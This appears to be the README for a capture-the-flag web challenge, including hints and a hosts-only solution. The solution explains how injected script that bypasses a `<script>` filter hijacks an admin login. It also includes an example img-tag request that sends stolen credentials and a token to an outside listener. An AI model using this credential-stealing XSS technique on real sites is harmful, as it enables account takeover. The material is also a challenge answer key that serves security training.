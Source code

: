 # HackTheStack - Bad Authentiation
### John Lee (2016)

# For the challengers
This challenge is for you to login as an admin for one of the hottest forum sites to come out since Yahoo! Answers.
In the developers' haste to get the product out, they missed some vital code to keep some nasty ne'er-do-wells from getting access to their site.

However, the creators aren't completely forgetful, there are some roadblocks in the way to do this. Don't be discouraged! Most of them are still insecure if you stretch the limits. (But don't stretch too much, the website might break because of you.)

There's a rumor that one of the admin's have been logging in quite often. Login as them and extract a super-secret admin code that they use for everything. Seriously. They never took `ECE 404/CS 426`.

Present the code to one of the hosts to win!

## Some hints *[only show if necessary]*
- It is not SQL injection.
- Use XSS
- Have them look at the 'recent users' area.
- Getting around CORS
  - Try creating an \<img> with the data included as a GET parameter.
  
# Hosts Only . . .
  
### Detailed Problem
The website is supposed to emulate a forum. Most forms of auth are secure *except* the `handle` which checks for `<script>` but not `<script src= . . .`. The challenger is supposed to inject some JS that replaces the login function with one that grabs the token or password. Once grabbed, it will then send it to a page that listens for any request and grabs the parameters. ( We might want to provide this ). To send it out, the easiest method is to bind it with an img tag. \<img src="https://mysecretwebsite.ioo/receive?user=admin&password=yadada&authToken=1234567">. 

Once received, they emulate that same request on the web page and get the new page, an admin page that contains the number. It only works on verified login, so they can't bypass this any other way. 
